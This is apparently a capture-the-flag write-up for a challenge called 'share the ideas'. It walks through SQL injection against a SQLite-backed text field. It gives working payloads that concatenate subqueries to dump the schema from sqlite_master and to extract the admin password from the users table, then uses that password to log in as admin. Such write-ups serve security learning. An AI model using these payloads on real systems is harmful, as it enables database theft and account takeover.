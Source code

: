 # share the ideas

1. Access the target website and create an account.

2. In the text field, enter a test value like:

   ```
   hhh
   ```

3. Then try adding a single quote to check for SQL errors:

   ```
   hhh'
   ```

   The response shows:

   ```
   Error : HY000 1 unrecognized token: "'hhh'')"
   ```

   This indicates a SQLite syntax error, confirming possible SQL injection.

4. To reveal the database schema, use:

   ```
   hhh' || (SELECT sql FROM sqlite_master))--
   ```

   Output:

   ```
   "hhhCREATE TABLE "xde43_users" ( "id" int(10) NOT NULL, "name" varchar(255) NOT NULL, "email" varchar(255) NOT NULL, "password" varchar(255) NOT NULL, "role" varchar(100) DEFAULT NULL )"
   ```

5. To retrieve the admin password:

   ```
   hhh' || (SELECT password FROM xde43_users WHERE role='admin'))--
   ```

6. Use the retrieved password to log in as admin and solve the challenge.
